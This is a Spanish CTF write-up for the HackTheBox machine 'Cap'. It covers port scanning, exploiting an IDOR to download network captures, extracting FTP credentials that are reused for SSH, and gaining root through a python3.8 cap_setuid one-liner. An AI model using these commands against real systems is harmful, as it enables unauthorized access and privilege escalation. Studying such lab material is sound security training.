- - -

## Introducción 

En esta máquina de **HackTheBox**, **Cap**, nos enfrentamos a un escenario web relativamente sencillo pero con una lección clave sobre el manejo de identificadores de recursos: explotaremos un **IDOR** (*Insecure Direct Object Reference*) para acceder a capturas de tráfico de red que no deberíamos poder ver, y de entre ellas extraeremos credenciales *FTP* que resultan reutilizadas también para *SSH*. Ya dentro de la máquina, la escalada de privilegios pasa por el abuso de una *capability* de Linux poco habitual, **cap_setuid**, asignada al binario `python3.8`.

Por tratarse de una máquina de dificultad *easy* centrada en IDOR y capabilities, es un buen ejercicio introductorio para quien esté empezando a familiarizarse con estos dos conceptos de cara a la eJPTv2.

## Fase de Reconocimiento

- - -

En este caso, al estar enfrentándonos a una máquina de Hack The Box, ya se nos proporciona la IP objetivo en la plataforma:

{: width="250" }

Lo primero que haremos será comprobar la conectividad con la máquina víctima.

```bash
ping -c 1 10.129.133.106
```

{: width="400" }

Tenemos conectividad con la máquina y podemos deducir por su *TTL* que estamos ante una máquina Linux, ya que generalmente `Linux (TTL → 64) | Windows (TTL → 128)` son los valores comunes si no han sido modificados.

### Escaneo de puertos 

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.133.106 -oN allPorts
```

```bash
grep '^[0-9]' allPorts | cut -d '/' -f1 | xargs | sort | tr ' ' ','
```

{: width="600" }

```bash
nmap -p21,22,80 -sCV 10.129.133.106 -oN targeted
```

{: width="800" }

Tras el escaneo vemos que la máquina víctima cuenta con un servicio *FTP* corriendo por el puerto 21, *SSH* por el 22 y un servicio *HTTP* por el 80. Cabe destacar que el servicio *SSH* no es vulnerable a enumeración de usuarios, ya que la versión es superior a la 7.7. Visto esto, podemos proceder a enumerar estos servicios.

## Enumeración 

- - -

### Enumeración de servicio HTTP 

```bash
whatweb http://10.129.133.106
```



Desde `Wappalyzer` nos reporta las siguientes tecnologías:

{: width="300" }

El servidor web es *gunicorn*, según los reportes de las herramientas, un servidor *HTTP* diseñado para aplicaciones *Python*. Si echamos un vistazo a la web, nos daremos cuenta de que, si entramos a la pestaña de “Security Snapshot”, se nos muestra un panel con cierta información de lo que parece una captura de red:



Cabe destacar que estamos como el usuario “Nathan” (posible usuario válido) y que podemos descargar el reporte, con lo que obtendremos un archivo `.pcap` correspondiente a una captura de red. Si lo abrimos nos aparecerá en blanco, ya que, como indica el reporte de la página web, no hay datos.

También nos debería llamar la atención la URL, donde, si nos fijamos:


Hace alusión al recurso (al reporte de red) mediante lo que parece un identificador, en este caso el número tres. Esto debería hacernos pensar en un posible **IDOR**; más adelante pondremos a prueba el servidor. En este punto vamos a aplicar *fuzzing* a ver qué encontramos:

```bash
feroxbuster -u http:/10.129.133.106 -w /usr/share/SecLists-master/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 40
```

{: width="800" }

En especial nos llaman la atención esos hallazgos, donde vemos que si accedemos al recurso */data* se nos redirige a la raíz, y si entramos a */capture* se nos redirige a la captura con identificador 2, que a su vez nos redirige a la raíz.

Al tratar de acceder al panel tarda un poco en cargar, por lo que deducimos que se está realizando la captura de tráfico de red en tiempo real; si entramos de nuevo, el identificador cambia a dos y muestra lo siguiente:

{: width="900" }

Vamos a descargar la captura de red y echarle un vistazo.

```bash
tshark -r 2.pcap
```



Descubrimos que en la máquina víctima se está ejecutando el comando de captura del tráfico de red como usuario root, lo que, como indica el output, puede ser peligroso… Algo que podríamos hacer con esta captura para tratar de quedarnos con la data o payloads que viajan por TCP es filtrar por los siguientes campos:

```bash
tshark -r 2.pcap -Tfields -e data.data
```

Que no muestra nada en este caso.

```bash
tshark -r 2.pcap -Tfields -e tcp.payload
```

En este campo suele estar la data de interés de estas solicitudes. El output de este filtro nos muestra mucho contenido en hexadecimal, que podemos ver haciendo la conversión inversa de la siguiente manera:

```bash
tshark -r 2.pcap -Tfields -e tcp.payload | xxd -ps -r
```

{: width="900" }

Por lo que podemos ver en la captura, muy posiblemente sea el tráfico de la enumeración que solemos hacer con el script *http-enum* de `nmap` (como no reportó nada interesante, no lo incluyo en el writeup, pero siempre es interesante lanzarlo).

## Explotación 

- - -

### Explotación de **IDORs** (Insecure Direct Object References)

En este punto podemos tratar de fuzzear por el id para ver las distintas capturas que haya en la web, filtrando por su longitud y verificando su contenido después en busca de información sensible.

```bash
wfuzz -c --hc=302 -t 200 -z range,0-100000 'http://10.129.133.106/data/FUZZ'
```

{: width="600" }

Vemos que existen las siguientes capturas; cabe destacar que, haciendo esto, estamos explotando un **IDOR**, ya que estamos accediendo a un recurso al que en principio no deberíamos poder acceder. Sabiendo esto, vamos a ir, una a una, descargándolas desde la web e inspeccionando su contenido.

Al llegar a la captura correspondiente al identificador número cero, nos llama la atención que incluye tráfico correspondiente al protocolo *FTP*, que, si recordamos, esta máquina lo tiene expuesto por el puerto 21. Podemos aplicar un filtro para quedarnos únicamente con las peticiones correspondientes a este servicio:

```bash
tshark -r 0.pcap -Y ftp
```

{: width="700" }

De esta forma obtenemos credenciales válidas para el servicio *FTP* entre las instrucciones que ejecutó una vez logueado en el servicio. Vamos a validar esta información:

```bash
ftp 10.129.133.106
```

{: width="500" }

Efectivamente son válidas, y de esta forma encontramos la flag de usuario de la máquina. En este punto tenemos unas credenciales válidas y un servicio que aún no hemos tocado, el SSH… Debemos probar estas credenciales para tratar de ganar acceso a la máquina como el usuario “nathan”.

```bash
ssh nathan@10.129.133.106
```



Efectivamente, se está aplicando una reutilización de contraseñas y también son válidas para el servicio SSH, por lo que ganamos acceso a la máquina. En este punto podemos empezar con la enumeración local para escalar privilegios en la máquina víctima.

## Escalada de privilegios 

- - -

### Enumeración local 

```bash
grep 'sh$' /etc/passwd
```

{: width="400" }

```bash
getcap -r / 2>/dev/null
```

{: width="800" }

Tras buscar por *capabilities* asignadas en el sistema nos llama la atención el binario `python3.8`, que tiene la *capability* **cap_setuid** asignada. Esta *capability* permite al proceso que la tenga asignada cambiar su identificador de usuario, en este caso el binario `python3.8`, de forma que podríamos utilizarlo a nuestro favor para escalar privilegios de la siguiente manera.

### Abuso de capabilities (**cap_setuid**)

Podríamos ejecutar el siguiente comando:

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0);os.system("bash")'
```



{: width="300" }

De esta forma habríamos escalado privilegios aprovechándonos de una *capability* asignada al binario `python3.8` y obtenido la flag de root. Una vez hecho, habríamos completado la máquina Cap de Hack The Box!!!


